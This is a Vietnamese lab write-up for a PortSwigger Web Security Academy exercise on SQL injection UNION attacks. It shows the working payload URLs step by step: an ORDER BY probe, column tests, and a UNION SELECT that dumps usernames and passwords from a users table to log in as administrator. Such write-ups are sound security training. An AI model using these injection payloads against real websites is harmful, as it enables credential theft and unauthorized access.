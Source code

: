 # Lab: SQL injection UNION attack, retrieving multiple values in a single column

### Link: https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column
![Require of Lab](/Images/sql8.1.png)

Yêu cầu của bài lab là sử dụng kiểu tấn công UNION để lấy toàn bộ username và password trong bảng users; đăng nhập bằng thông tin của user administrator

Truy cập vào bài lab ta thấy đây là 1 website bán hàng, với từng danh mục như `Corporate gifts`, `Food & Drink`, `Gifts` và `Lifestyle`, `Pets`....
![Website](/Images/sql8.2.png)

Bước đầu tiên để giải quyết bài lab, ta phải xác định số cột được trả về là bao nhiêu. 
Sau khi tăng dần vị trí tương đối lên đến 3 thì thấy thông báo lỗi, do đó ta xác định được số cột được trả về là 2
> https://ac4b1fb51e6eb057c00080f2002b00f6.web-security-academy.net/filter?category=Pets`'+ORDER+BY+3--`

![Error of query](/Images/sql8.3.png)

Tiếp theo, là xác định từng cột trả về có chứa văn bản hay không.
Ta kiểm tra từng cột được trả về bằng cách chèn một vài ký tự trong từng cột và xem phản hồi
> https://ac4b1fb51e6eb057c00080f2002b00f6.web-security-academy.net/filter?category=Pets`'+UNION+SELECT+'abc',NULL--`

![Check column](/Images/sql8.4.png)

> https://ac4b1fb51e6eb057c00080f2002b00f6.web-security-academy.net/filter?category=Pets`'+UNION+SELECT+NULL,'abc'--`

![Check column](/Images/sql8.5.png)

Đã xác định được cột thứ 2 có chứa văn bản, cuối cùng là lấy thông tin các user từ bảng user như sau
> https://ac4b1fb51e6eb057c00080f2002b00f6.web-security-academy.net/filter?category=Pets`'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`

![Info of users](/Images/sql8.6.png)

Để hoàn thành bài lab, ta dùng thông tin của user `administrator` để đăng nhập vào website
![Result](/Images/sql8.7.png)


<div align="right"> <i> Ngày 22 tháng 01 năm 2022 </i> </div>
